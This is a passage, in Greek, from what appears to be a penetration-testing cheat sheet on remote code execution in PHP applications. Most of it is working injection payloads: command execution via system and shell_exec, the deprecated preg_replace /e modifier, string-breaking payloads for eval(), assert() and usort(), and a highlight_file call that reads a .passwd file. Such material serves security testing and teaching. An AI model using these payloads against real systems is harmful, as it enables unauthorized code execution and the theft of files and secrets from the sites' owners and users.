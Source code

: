## Εκτέλεση κώδικα

**system("ls");**\
**\`ls\`;**\
**shell\_exec("ls");**

[Ελέγξτε αυτό για περισσότερες χρήσιμες συναρτήσεις PHP](php-useful-functions-disable\_functions-open\_basedir-bypass/)
```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```
Για να εκτελεστεί ο κώδικας στο όρισμα "replace" απαιτείται τουλάχιστον μία αντιστοιχία.\
Αυτή η επιλογή της preg\_replace έχει **αποσυρθεί από την PHP 5.5.0.**

### **RCE μέσω της Eval()**
```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
### **RCE μέσω Assert()**

Αυτή η συνάρτηση στην php σας επιτρέπει να **εκτελέσετε κώδικα που είναι γραμμένος σε μια συμβολοσειρά** για να **επιστρέψετε true ή false** (και ανάλογα με αυτό να αλλάξετε την εκτέλεση). Συνήθως η μεταβλητή χρήστη θα εισαχθεί στη μέση μιας συμβολοσειράς. Για παράδειγμα:\
`assert("strpos($_GET['page']),'..') === false")` --> Σε αυτήν την περίπτωση για να πάρετε **RCE** μπορείτε να κάνετε:
```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
Θα χρειαστεί να **σπάσετε** τη **σύνταξη** του κώδικα, να **προσθέσετε** το **φορτίο** σας και στη συνέχεια να το **διορθώσετε ξανά**. Μπορείτε να χρησιμοποιήσετε **λογικές λειτουργίες** όπως "**and" ή "%26%26" ή "|"**. Σημειώστε ότι το "or", "||" δεν λειτουργεί επειδή αν η πρώτη συνθήκη είναι αληθής, το φορτίο μας δεν θα εκτελεστεί. Με τον ίδιο τρόπο, το ";" δεν λειτουργεί καθώς το φορτίο μας δεν θα εκτελεστεί.

**Άλλη επιλογή** είναι να προσθέσετε στο string την εκτέλεση της εντολής: `'.highlight_file('.passwd').'`

**Άλλη επιλογή** (αν έχετε τον εσωτερικό κώδικα) είναι να τροποποιήσετε μερικές μεταβλητές για να αλλοιώσετε την εκτέλεση: `$file = "hola"`

### **RCE μέσω usort()**

Αυτή η συνάρτηση χρησιμοποιείται για την ταξινόμηση ενός πίνακα στοιχείων χρησιμοποιώντας μια συγκεκριμένη συνάρτηση.\
Για να καταχραστείτε αυτήν τη συνάρτηση:
```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```
